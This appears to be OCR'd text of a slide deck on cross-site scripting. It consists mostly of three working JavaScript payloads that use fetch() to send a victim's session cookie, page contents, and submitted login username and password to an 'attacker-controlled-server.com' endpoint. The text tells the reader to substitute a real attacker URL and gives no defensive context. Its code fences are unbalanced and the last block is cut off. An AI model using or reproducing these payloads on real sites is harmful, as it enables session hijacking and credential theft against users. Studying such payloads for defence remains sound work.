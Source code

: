 [click to view as a presentation](https://presentations.generalassemb.ly/5f9c9b924793af4c9d507178d8051fa2#/1)

<link href="https://gist.githubusercontent.com/jim-clark/6919052ab15de680c120907d223c31b5/raw/9eedb5e3c01352b9ccda7264227f253be56a08b7/slide.css">

---
<img src="https://i.imgur.com/VqMhmBL.png">

---

```
Session Token Theft:

An attacker might use the Fetch API to send the user's session token to a server they control:
```
<script>
  fetch('https://attacker-controlled-server.com/steal.php?token=' + document.cookie);
</script>
```
In this example, replace 'https://attacker-controlled-server.com/steal.php' with the actual URL of the attacker's server. This payload fetches the user's cookies, including the session token, and sends it to the attacker-controlled server.

Sensitive Information Exfiltration:

An attacker might use the Fetch API to exfiltrate sensitive information from the current page and send it to an external server:

```
<script>
  var sensitiveData = document.getElementById('sensitiveElement').innerText;
  fetch('https://attacker-controlled-server.com/exfiltrate.php?data=' + encodeURIComponent(sensitiveData));
</script>
```
Replace 'https://attacker-controlled-server.com/exfiltrate.php' with the actual URL of the attacker's server.
This payload extracts sensitive information from an HTML element with the ID 'sensitiveElement' and sends it to the attacker-controlled server.

Credential Harvesting:

An attacker might use the Fetch API to capture login credentials entered by users:

```
<script>
  document.getElementById('loginForm').addEventListener('submit', function(event) {
    var username = document.getElementById('username').value;
    var password = document.getElementById('password').value;
    fetch('https://attacker-controlled-server.com/harvest.php?username=' + encodeURIComponent(username) + '&password=' + encodeURIComponent(password));
  });
</script>
